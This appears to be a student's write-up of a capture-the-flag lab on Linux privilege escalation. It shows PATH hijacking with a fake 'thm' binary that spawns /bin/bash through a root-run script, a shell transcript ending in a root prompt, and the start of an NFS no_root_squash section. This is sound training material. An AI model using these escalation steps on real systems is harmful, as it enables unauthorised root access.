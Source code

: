`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`

We have added “grep -v proc” to get rid of the many results related to running processes.

The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the `export PATH=/tmp:$PATH` command accomplishes this.

At this point the path script will also look under the /tmp folder for an executable named “thm”.
Creating this command is fairly easy by copying /bin/bash as “thm” under the /tmp folder.


We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.

1. using `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` found out that /home/murdoch is writeable
2. there is test and tmp.py in /home/murdoch. My guess is that test will execute tmp.py that will execute tmp program from PATH
3. 

```
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ cd /tmp
$ ls
snap.lxd
systemd-private-1adb6d0aa79b40d0969dcd95f7c79411-systemd-logind.service-I9jSni
systemd-private-1adb6d0aa79b40d0969dcd95f7c79411-systemd-resolved.service-ybX0Ze
systemd-private-1adb6d0aa79b40d0969dcd95f7c79411-systemd-timesyncd.service-AKJb5i
$ echo "/bin/bash" > thm
$ chmod 777 thm
$ /home/murdoch/test
root@ip-10-10-64-150:/tmp#
```

4. cat /home/matt/flag6.txt


# Privilege Escalation: NFS

Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
